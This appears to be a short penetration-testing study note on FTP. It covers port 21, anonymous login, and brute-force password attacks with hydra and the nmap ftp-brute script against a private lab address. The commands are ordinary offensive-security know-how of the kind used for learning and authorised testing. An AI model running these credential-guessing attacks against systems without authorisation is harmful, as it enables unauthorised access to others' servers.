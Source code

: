 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)

# #Overview 
FTP - File Transfer Protocol

file sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter

## Related Services
vsftp
SFTP

# #Tools
## #hydra
[hydra](../Tools/Hydra.md)
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

## #nmap
[nmap](../Tools/NMAP.md)
scripts
```bash
nmap 192.168.24.3 --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`
